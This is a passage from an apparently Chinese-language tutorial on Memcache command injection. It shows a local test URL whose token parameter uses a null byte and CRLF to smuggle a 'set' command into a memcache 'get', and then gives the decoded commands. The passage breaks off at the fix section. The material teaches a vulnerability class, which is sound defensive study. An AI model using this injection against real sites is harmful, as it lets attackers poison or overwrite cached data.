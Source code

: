 [![](assets/1708920194-c137dc9e8676bd18e945808bc46ce16f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111427-53c5ca46-cbb0-1.png)

可以看到成功获取到实例值，并且输出“END”代表结束。

## 漏洞注入：

[![](assets/1708920194-d266f25f6787481afc7f0f8ce681917f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111433-576ae258-cbb0-1.png)

我们可以发现 get 这个位置能够输入缓存信息，所以我们在网站中进行注入：

```plain
http://127.0.0.1/index.php?token=monkey%00%0D%0Aset%20allbmonkey%200%20500%203%0D%0Acat

//等同于
get monkey
set allbmonkey 0 500 3
cat
```

## 漏洞修复：

对所有 Memcache 请求进行：
